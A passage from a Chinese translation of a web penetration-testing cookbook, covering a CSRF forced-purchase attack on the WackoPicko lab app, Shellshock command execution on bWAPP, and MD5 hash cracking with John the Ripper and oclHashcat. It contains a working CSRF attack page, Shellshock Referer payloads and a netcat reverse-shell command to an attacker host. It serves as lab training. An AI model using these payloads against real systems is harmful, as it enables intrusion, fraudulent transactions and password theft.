0.  之后，创建 HTML 文件，叫做`/var/www/html/wackopurchase.html`，带有如下内容：

    ```html
    <html> 
    <head></head> 
    <body onLoad='window.location="http://192.168.56.102/ WackoPicko/cart/action.php?action=purchase";setTimeout("window. close;",1000)'> 
    <h1>Error 404: Not found</h1> 
    <iframe src="http://192.168.56.102/WackoPicko/cart/action. php?action=add&picid=16"> 
    <iframe src="http://192.168.56.102/WackoPicko/cart/review.php" > 
    <iframe src="http://192.168.56.102/WackoPicko/cart/confirm.php"> 
    </iframe> 
    </iframe> 
    </iframe> 
    </body>
    ```
    
    这个代码会我们的商品的发送`add`、`review`和`confirm`请求给 WackoPicko ，之后展示 404 页面给用户，当它加载完成后，它会重定向到购买操作，之后在一秒后关闭窗口。
    
1.  现在以`v_user`登录，上传图片并登出。

2.  作为攻击者，我们需要确保用户访问我们的恶意站点，同时仍然保持登录 WackoPicko。以`attacker`登录之后，访问`Recent`并选择属于`v_user`的图片（刚刚上传的那个）。

3.  我们需要在图片上输入下列评论。

    ```html
    This image looks a lot like <a href="http://192.168.56.1/ wackopurchase.html" target="_blank">this</a>
    ```
    
    > 译者注：这一步的前提是页面上存在 XSS，没有的话利用社会工程直接发送链接也是可行的。
    
4.  点击`Preview`之后`Create`。

    
    
    你可以看到，评论中允许HTML 代码，而且当`v_user`点击链接是，我们的恶意页面会在新窗口打开。
    
5.  登出并以`v_user`登录。

6.  访问`Home`并点击` Your Purchased Pics`，这里应该没有攻击者的图片。

7.  再次访问`Home`，之后访问` Your Uploaded Pics`。

8.  选项带有攻击者评论的图片。

9.  点击评论中的链接。

    
    
    当它完全加载之后，你应该看到文本框中的一些 WackoPicko  的文本，这个窗口会在一秒之后关闭，我们的攻击已经完成了。
    
0.  如果我们访问`Home`，你可以看到`v_user`的 Tradebux 余额现在是 85。

    

1.  现在访问`Your Purchased Pics`：` http://192.168.56.102/WackoPicko/ pictures/purchased.php `来查看非预期购买的图片：

    
    
对于 CSRF 工具者，成功执行漏洞需要预置条件。首先，我们需要了解执行特殊操作所需的请求参数，以及我们需要在所有情况中都处理的响应。

这个秘籍中，我们使用了代理和有效用户账户来执行我们所需的操作，来复制和收集所需信息：购买过程中涉及到的请求，这些请求所需的信息，以及执行它们的正确顺序。

一旦我们知道了需要向应用发送什么，我们需要将其自动化，所以我们启动 Web 服务器，并准备页面使调用以正确顺序和正确参数执行。通过使用 `onLoad` JS 时间，我们确保购买在`add`和`confirm`调用之前不会执行。

在每个 CSRF 攻击中，都必须有方法让用户访问我们的恶意站点，同时保持正常站点的登录。这个秘籍中，我们使用应用的特性，它的评论允许 HTML 代码，并可以在这里输入链接。所以当用户点击某个图片评论中的链接时，它就向我们的 Tradebox 盗取站点发送了请求。

最后，当用户访问我们的站点时，它模拟了错误页面，并在购买请求刚刚完成后关闭自己。在这里我们并不需要担心渗透，所以错误页面可以改进一下使用户不怀疑它。这通过 HTML `body`标签中的`onload`事件中的 JavaScript 命令（购买操作的调用，和用于关闭窗口的计时器）来完成。这个时间在页面的所有元素完全加载之后触发，换句话说，当`add`、`review`和`confirm`的步骤完成之后。

## 7.7 使用 Shellsock 执行命令

Shellshock（也叫作Bashdoor）是个在 2014 年九月发现在 Bash shell 中的bug，允许命令通过储存在环境变量中的函数来执行。

Shellshock 和我们渗透测试者有关系，因为开发者有时候允许我们在 PHP 或 CGI 脚本中调用系统命令 -- 这些脚本可以利用系统环境变量。

这个秘籍中，我们会在 Bee-box 漏洞虚拟机中利用 Shellshock 漏洞来获得服务器的命令执行权。

### 操作步骤

1.  登录` http://192.168.56.103/bWAPP/`。

2.  在`Choose your bug`下拉框中选择` Shellshock Vulnerability (CGI) `，之后点击`Hack`。

    

    在文本中，我们看到了一些有趣的东西；`Current user: www-data`。这可能意味着页面使用系统调用来获得用户名。它给了我们提示：`Attack the referrer`。

3.  让我们看看背后有什么东西，使用 BurpSuite 来记录请求并重复步骤 2。

4.  让我们查看代理的历史：

    
    
    我们可以看到，有个`iframe`调用了 shell 脚本：`./cgi-bin/shellshock.sh`，这可能存在 Shellshock 漏洞。
    
5.  让我们跟随提示并尝试攻击`shellshock.sh`。所以我们首先需要配置 BurpSuite 来拦截服务器的响应，访问`Proxy`标签页的`Options`，并选中`Intercept responses based on the following rules`的选择框。

6.  现在，让 BurpSuite 拦截和重新加载`shellshock.php`。

7.  在 BurpSuite 中，点击`Forward`直到得到了`/bWAPP/cgi-bin/ shellshock.sh`请求，之后将`Referer`替换为：

    ```sh
    () { :;}; echo "Vulnerable:"
    ```
    
    
    
8.  再次点击`Forward`，在`.ttf`文件的请求中，我们应该能得到`shellshcok.sh`的响应，像这样：

    
    
    现在响应多了一个协议头参数，叫做`Vulnerable`。这是因为它将`echo`命令的输出集成到 HTTP 协议头中，所以我们可以进一步利用它。
    
9.  现在使用下列命令重复这个过程：

    ```
    () { :;}; echo "Vulnerable:" $(/bin/sh -c "/sbin/ifconfig")
    ```
    
    
    
0.  能够在远程服务器上执行命令，对于渗透测试来说是个巨大的优势，下一步自然是获得远程 shell。在 Kali 中打开终端，监听网络端口，像这样：

    ```
    nc -vlp 12345
    ```
    
    
    
1.  现在访问 BurpSuite 的代理历史，选择任何`shellshock.sh`的请求，右击它并发送到 Repeater，像这样：

    
    
2.  在 Repeater 中，修改 Referer 的值为：

    ```
    () { :;}; echo "Vulnerable:" $(/bin/sh -c "nc -e /bin/bash 192.168.56.1 12345")
    ```
    
    这里，192.168.56.1 是我们 Kali 主机的地址。
    
3.  点击`Go`。

4.  如果我们检查我们的终端，我们可以看到连接已建立，执行一些命令来检查我们是否得到了远程 shell。

    
    
### 工作原理

在第一步中，我们发现了 shell 脚本的调用。因为它可以被 shell 解释器运行，它可能是漏洞版本的 bash。为了验证，我们执行了下列测试：

```sh
() { :;}; echo "Vulnerable:" 
```

第一个部分`() { :;};`是个空函数，因为 bash 可以将函数储存为环境变量，这个是漏洞的核心。在函数结束之后，解析器会继续解释（并执行）命令，这允许我们执行第二个部分`echo "Vulnerable:`，这是简单返回输入的命令。

Web 服务器中存在漏洞，因为 CGI 事先将请求的所有部分映射为环境变量，所以这个攻击通过`User-Agent`或者`Accept-Language`也能工作。

一旦我们知道了服务器存在漏洞，我们键入测试命令`ifconfig`并建立反向 shell`。

反向 shell 是一种远程 shell，它的特点是由受害者主机初始化，攻击者监听连接，而不是服务器在绑定连接中等待客户端的连接。

## 7.8 使用 John the Ripper 和字典来破解密码哈希

在上一个秘籍，以及第六章中，我们从数据库中提取了密码哈希。在执行渗透测试的时候，有时候这是唯一的用于发现密码的方式。为了发现真实的密码，我们需要破译它们。由于哈希由不可逆的函数生成，我们没有办法直接解密密码。所以使用慢速的方法，例如暴力破解和字典攻击就很有必要。

这个秘籍中，我们会使用 John the Ripper（JTR 或 John），最流行的密码破解器，从第六章“逐步执行基本的 SQL注入”秘籍中提取的哈希中恢复密码。

### 操作步骤

1.  虽然 JTR 对接受的输入非常灵活，为了防止错误解释，我们首先需要以特定格式设置用户名和密码哈希。创建叫做`hashes_6_7.txt`的文本文件，每行包含一个名称和一个哈希，以冒号分隔（`username:hash`），像这样：

    
    
2.  一旦我们拥有了这个文件，我们可以打开终端并执行下列命令：

    ```
    john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes_6_7.txt
    ```
    
    
    
    我们使用 Kali 预置的单词列表之一。我们可以看到单词列表中六个密码发现了五个，我们也能发现，John 每秒能比较 10,336,000 次（10,336 KC/s）。
    
3.  John 也有选项来应用修改器规则 -- 添加前后缀，修改大小写，以及在每个密码上使用 leetspeak。让我们在仍然未破解的密码上尝试它们：

    ```
    john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes_6_7.txt –rules
    ```
    
    

    我们可以看到这个规则生效了，我们得到了最后一个密码。
    
### 工作原理

John（以及任何离线密码破解器）的工作方式是计算列表（或所生成的）单词的哈希，并将它们与需要被破解的哈希对比，当存在匹配时，它就假设密码找到了。

第一个命令使用`--wordlist`选项告诉 John 要使用什么单词。如果忽略了它，它会生成自己的列表来执行爆破攻击。`--format`选项告诉我们要使用什么算法来生成哈希，如果这个选项被忽略，John 会猜测它，通常带有不错的结果。最后，我们将包含想要破解的哈希的文件传入。
    
3.  我们可以通过使用`--rules`选项来增加找到密码的机会，因为在尝试创建更强的密码来破解的时候，它会使用人们对单词所做的常用修改。例如，对于`password`，John也会尝试下面的东西：

+ `Password` 
+ `PASSWORD` 
+ `password123` 
+ `Pa$$w0rd`

## 7.9 使用 oclHashcat/cudaHashcat 爆破密码哈希

最近，显卡的发展取得了巨大突破，这种芯片中含有成百上千个处理器，它们都并行工作。这里，当应用在密码破解上是，这意味着，如果单个处理每秒可以计算一万个哈希，一个带有上千内核的 GPU 就能够计算一千万个。这可以将破解时间降至一千分之一。

现在我们使用 Hashcat 的 GPU 版本来爆破密码。如果你在 N 卡的电脑上安装的 Kali，你需要 cudeHashcat。如果它安装在 A 卡的电脑上，则需要 oclHashcat。如果你在虚拟机上安装 kali，GPU 破解可能不工作，但是你始终可以在你的主机上安装它，Windows 和 Linux 上都有它的版本。

这个秘籍中，我们会使用 oclHashcat，它和 cudaHashcat 的命令没有区别，虽然 A 卡对于密码破解更加高效。

### 准备

我们需要确保你正确安装了显卡驱动，oclHashcat 也兼容它们，所以你需要做这些事情：

1.  单独运行 oclHashcat，如果出现问题它会告诉你。

    ```
    oclhashcat 
    ```

2.  测试它在跑分模式中支持的每种算法的哈希率。

    ```
    oclhashcat --benchmark 
    ```
    
3.  取决于你的安装，oclHahcat 可能需要在你的特定显卡上强行工作：

    ```
    oclhashcat --benchmark --force
    ```
    
我们会使用上一个秘籍的相同哈希文件。

Kali 默认安装的 oclHashcat 上有一些问题，所以如果你在运行 oclHashcat 的时候出现了问题，你始终可以从官网上下载最新版本，并从你解压的地方直接运行（`http://hashcat.net/ oclhashcat/`）。

### 操作步骤

1.  我们首先破解单个哈希，让我们试试`admin`的哈希：

    ```
    oclhashcat -m 0 -a 3 21232f297a57a5a743894a0e4a801fc3
    ```

    
    
    你可以看到，我们能够直接从命令行中设置哈希，它会在一秒之内破解出来。
    
2.  现在，为了破解整个文件，我们需要去掉用户名，只保留哈希，像这样：

    
    
    我们创建了只包含哈希的新文件。
    
3.  为了破解文件中的哈希，我们只需要在上一条命令中将哈希替换为文件名称。

    ```
    oclhashcat -m 0 -a 3 hashes_only_6_7.txt
    ```

    

    你可以看到，它在三分钟之内涵盖了一到七个字符的所有组合（每秒破解 6.885 亿个哈希）。并且它需要花费多于两个小时来测试八个字符的所有组合。这对于爆破来说十分有效。
    
### 工作原理

在这个秘籍中，我们用于执行`oclHahcat`的参数定义了要使用的哈希算法：`-m 0`告诉程序使用 MD5 来计算所生成单词的哈希，以及攻击类型，`-a 3`的意思是我们打算使用纯爆破攻击，并尝试所有可能的字符组合，直到发现了密码。最后，我们在第一种情况中添加了我们打算破解的哈希，第二种情况中我们添加了包含哈希集合的文件。

oclHahcat 也可以使用字典文件来执行混合攻击（爆破加上字典）来定义要测试哪个字符集，并将结果保存到指定文件中（`/usr/share/oclhashcat/oclHashcat.pot`）。他也可以对单词应用规则，并使用统计模型（马尔科夫链）来增加破解效率。使用`--help`命令来查看所有选项，像这样：

```
oclhashcat --help
```
